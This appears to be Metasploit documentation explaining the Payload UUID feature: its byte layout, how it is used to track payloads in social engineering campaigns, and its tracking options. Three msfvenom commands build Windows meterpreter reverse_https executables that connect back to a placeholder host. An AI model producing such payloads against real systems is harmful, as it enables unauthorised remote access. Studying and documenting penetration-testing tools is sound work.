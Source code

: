 In mid-2015, a new feature was added to many HTTP and TCP Metasploit payloads: Payload UUIDs. A Payload UUID is a 16-byte value that encodes an 8-byte identifier, a 1-byte architecture ID, a 1-byte platform ID, a 4-byte timestamp, and two additional bytes for obfuscation. The [source code comments](https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/payload/uuid.rb) go into more detail.

In the case of HTTP payloads, the 16-byte UUID value is encoded in [base64url](https://tools.ietf.org/html/rfc4648#section-5) format resulting in a 22-byte string. This value is always placed in the beginning of the URL used by the payload. TCP payloads send the 16-byte raw value over the socket once a connection is established.

The goal of Payload UUIDs is three-fold:
 * Uniquely identify a generated payload. This is important when running social engineering campaigns to identify what specific payload a target executed. If an email campaign resulted in one user forwarding a payload to another user before it was executed, this can be determined by reviewing the UUID in the session listing.
 * Drop connections that do not match known UUIDs. This allows a listener to be setup that only allows known sessions to connect, which is important when running internet-facing payload handlers.
 * Enable universal handlers. The embedded platform and architecture identifiers allow the listener to determine what type of stage to send back to a stager. This will eventually allow for a single listener to be used with multiple exploits, even those that target different platforms and architectures.

Although Payload UUIDs are normally random, it is possible to specify a static UUID value using the ```PayloadUUIDRaw``` option. This option takes a 8-byte hex string, such as "0011223344556677". For example:
```
$ ./msfvenom windows/meterpreter/reverse_https LHOST=example.com LPORT=4444 PayloadUUIDRaw=4444444444444444 -f exe -o payload.exe
```

Instead of specifying a static UUID as the raw 8-byte value, it is also possible to derive a static UUID using an arbitrary-length string using the PayloadUUIDSeed option:
```
$ ./msfvenom windows/meterpreter/reverse_https LHOST=example.com LPORT=4444 PayloadUUIDSeed=ShellsAreDelicious -f exe -o payload.exe
```


Payload UUIDs are enabled by default, but are not tracked unless the ```PayloadUUIDTracking``` option is set to ```true```. Setting this option causes a new entry to be created in ```~/.msf4/payloads.json``` when any UUID-enabled payload is generated. It is also possible to create a local-only name for a given UUID using the ```PayloadUUIDName```. The example below will create a new registered payload with a custom name:

```
$ ./msfvenom windows/meterpreter/reverse_https LHOST=example.com LPORT=4444 PayloadUUIDTracking=true PayloadUUIDName=EmailCampaign20150101 -f exe -o payload.exe
```


